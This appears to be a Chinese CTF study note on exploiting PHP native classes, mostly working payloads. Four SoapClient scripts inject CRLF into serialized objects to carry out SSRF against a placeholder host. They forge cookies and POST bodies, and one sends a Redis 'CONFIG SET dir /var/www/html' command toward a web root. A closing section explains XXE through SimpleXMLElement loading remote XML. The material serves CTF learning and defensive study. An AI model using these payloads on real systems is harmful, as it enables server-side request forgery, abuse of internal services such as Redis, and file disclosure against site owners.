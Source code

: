 # 文章
[PHP 原生类的利用小结 - 先知社区](https://xz.aliyun.com/t/9293#toc-8)<br />[php原生类利用](https://www.extrader.top/posts/35c0085d/#Class-Found)<br />[PHP原生类在CTF当中的应用🛴](https://ch1e.gitee.io/2021/11/12/yuanshenglei/)<br />[浅析PHP原生类-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/264823)
# Error和Exception
### 触发点
`__toString()`
# SoapClient
### 触发点 
`__call()` 当调用该类不存在的方法时，会触发
### 配合CRLF漏洞进行SSRF
CRLF注入 [CRLF Injection漏洞的利用与实例分析 - phith0n](https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html)<br />一些`SoapClient`原生类序列化字符串的构造脚本，`SoapClient`只支持HTTP和HTTPS
```php
<?php
$a = new SoapClient(null, array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
```php
<?php
$target = 'http://47.xxx.xxx.72:2333/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
```php
<?php
$target = 'http://47.xxx.xxx.72:6379/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
```php
<?php
$target = 'http://47.xxx.xxx.72:2333/';
$post_data = 'data=whoami';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
### 例题
[bestphp’s revenge题目详解](https://xilitter.github.io/2023/04/28/bestphp-s-revenge%E9%A2%98%E7%9B%AE%E8%AF%A6%E8%A7%A3/index.html)
# SimpleXMLElement
### 触发点
`__construct()`
### 参数
[PHP: SimpleXMLElement::__construct - Manual](https://www.php.net/manual/zh/simplexmlelement.construct.php)
```php
public SimpleXMLElement::__construct(
  string $data,
  int $options = 0,
  bool $dataIsURL = false,
  string $namespaceOrPrefix = "",
  bool $isPrefix = false
)
```
:::tips
**data**<br />A well-formed XML string or the path or URL to an XML document if dataIsURL is **true**.<br />**options**<br />Optionally used to specify [additional Libxml parameters](https://www.php.net/manual/zh/libxml.constants.php), which affect reading of XML 	documents. Options which affect the output of XML documents (e.g. **LIBXML_NOEMPTYTAG**) are silently ignored.<br />**注意**:<br />It may be necessary to pass [LIBXML_PARSEHUGE](https://www.php.net/manual/zh/libxml.constants.php#constant.libxml-parsehuge) to be able to process deeply nested   XML or very large text nodes.<br />**dataIsURL**<br />By default, dataIsURL is **false**. Use **true** to specify that data is a path or URL to an XML document instead of string data.<br />**namespaceOrPrefix**<br />Namespace prefix or URI.<br />**isPrefix**<br />**true** if namespaceOrPrefix is a prefix, **false** if it's a URI; defaults to **false**.
:::
可以看到通过设置第三个参数 **data_is_url** 为 `true`，我们可以实现远程xml文件的载入。第二个参数的常量值我们设置为`2`即可。第一个参数 **data** 就是我们自己设置的 payload 的 url 地址，即用于引入的外部实体的 url 。<br />这样的话，当我们可以控制目标调用的类的时候，便可以通过 `SimpleXMLElement` 这个内置类来构造 XXE。
